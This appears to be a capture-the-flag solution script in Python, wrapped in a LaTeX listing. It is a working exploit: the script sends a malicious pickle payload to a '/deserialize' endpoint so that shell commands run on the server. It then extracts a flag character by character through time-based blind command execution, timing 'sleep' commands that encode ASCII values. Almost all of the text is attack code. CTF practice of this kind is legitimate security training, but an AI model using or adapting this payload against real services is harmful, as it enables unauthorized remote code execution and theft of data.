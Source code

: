 \documentclass{article}
\begin{document}
\begin{lstlisting}[language=Python]
#sol.py
import base64
import requests
import time

# 1 indexed
# will sleep for the ascii value - the given ofset
def sub_str(start, end):
    with open("substr.sh", mode="rb") as f:
        code = f.read().strip()
    code += b' '
    code += str(start).encode() + b' ' + str(end).encode()
    return (code)

# 1 indexed
def sleep_ascii(idx):
    code = sub_str(idx, idx)
    code = code + b" | od -An -tuC | awk '{$1=$1; print}' | cut -d' ' -f1"
    code = b'sleep $(' + code + b')'
    return code

# 1 indexed
# will sleep for the ascii value - the given ofset
def sleep_ascii_offset(idx, offset):
    code = sub_str(idx, idx)
    code += b" | od -An -tuC | awk '{$1=$1; print}' | cut -d' ' -f1"
    code = b'expr $( ' + code + b' ) - ' + str(offset).encode()
    code = b'sleep $(' + code + b')'
    return code

# code is the bash generated bash code
def send_code(code):
    payload = b"cos\nsystem\n(S'" + code + b"'\ntR"
    exploit = base64.b64encode(payload).decode()
    form = {
            'data': exploit
    }
    start_time = time.time()
    r = requests.post("http://IP:PORT/deserialize", data=form)
    end_time = time.time()
    elapsed_time = end_time - start_time
    print(f"Request took {elapsed_time:.1f} seconds")
    print(r.status_code)
    print(r.text)
    return elapsed_time

def get_flag_len():
    with open('srcipt_len_back.sh', mode='rb') as f:
        code = f.read()
    print(f"script : {code.decode()}")
    flag_len = int(send_code(code))
    print(f"flag_len: {flag_len}")
    return (flag_len)

flag_len = get_flag_len()

flag = ""
for i in range(1, flag_len + 1):
    code = sleep_ascii_offset(i, 33)
    print(f"script : {code.decode()}")
    runtime = send_code(code)
    flag += chr(int(runtime + 33))
    print(f"cur flag: {flag}")

print(f"finished flag: {flag}")

\end{lstlisting}
\end{document}
